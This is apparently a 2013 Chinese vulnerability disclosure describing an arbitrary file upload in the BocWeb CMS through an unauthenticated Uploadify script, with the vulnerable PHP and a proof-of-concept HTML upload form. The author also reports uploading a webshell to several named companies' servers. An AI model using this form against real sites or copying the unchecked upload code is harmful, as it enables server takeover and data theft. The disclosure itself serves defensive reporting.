 # 某CMS任意文件上传影响大量上市企业

Feei <feei#feei.cn> 11/2013

## 0x01 漏洞入口
经常看到很多大企业官网底部标注着技术支持：杭州博采网络（[BocWeb](http://www.bocweb.cn)），比如吉利、万科、广厦、万向、大华。
后来*意外*获得一份BocWeb的CMS系统源码，简单审计了下发现很多问题。

其中以`/j/uploadify.php`这个最为严重，[Uploadify](http://www.uploadify.com)是一款用来处理上传文件的开源组件。

官网的`demo`中有一个`uploadify.php`用来演示后端处理上传文件的代码。
```php
<?php
/*
Uploadify
Copyright (c) 2012 Reactive Apps, Ronnie Garcia
Released under the MIT License <http://www.opensource.org/licenses/mit-license.php> 
*/

// Define a destination
$targetFolder = '/uploads'; // Relative to the root

if (!empty($_FILES)) {
    $tempFile = $_FILES['Filedata']['tmp_name'];
    $targetPath = $_SERVER['DOCUMENT_ROOT'] . $targetFolder;
    $targetFile = rtrim($targetPath,'/') . '/' . $_FILES['Filedata']['name'];
    
    $fileParts = pathinfo($_FILES['Filedata']['name']);
    
    move_uploaded_file($tempFile,$targetFile);
    echo $targetFile;
}
?>
```

代码用来做演示是没问题，但集成到自己的系统中时如果没有做权限控制就直接是**任意文件上传**。


## 0x02 漏洞证明

`bocweb-upload.html`
```
<!DOCTYPE html>
<html>
<head>
    <title>BocWeb Upload Demo</title>
</head>
<body>
    <form action="http://demo.feei.cn/bocweb/j/uploadify.php" method="post" enctype="multipart/form-data">
        <input type="text" name="folder" value="/">
        <input type="file" name="fileData" />
        <input type="submit" name="Upload">
    </form>
</body>
</html>
```

试了几个厂商：万科、绿城、广厦，直接上传小马拿SHELL，继而拿到服务器全部权限和数据。

## 0x03 漏洞影响

**受影响厂商：300多家上市公司**

![](images/v_bocweb_02.jpg)

已提交补天平台，已经修复完成。

![](images/v_bocweb_01.png)

## 0x04 意外发现

- 后来在[收集扫描规则](/payload)时发现360居然拿着我在补天提的漏洞给360网站卫士进行扫描。
- 2013年第一次提到补天上的，后来2015年在乌云上发现居然有人又提了一遍。黑人问号.jpg

漏洞已报告给CNCERT/乌云/补天或厂商且已修复完成，感谢厂商的重视及现金奖励。

披露漏洞细节是安全行业通行做法，若对披露有异议请联系`feei#feei.cn`进行隐藏厂商处理。
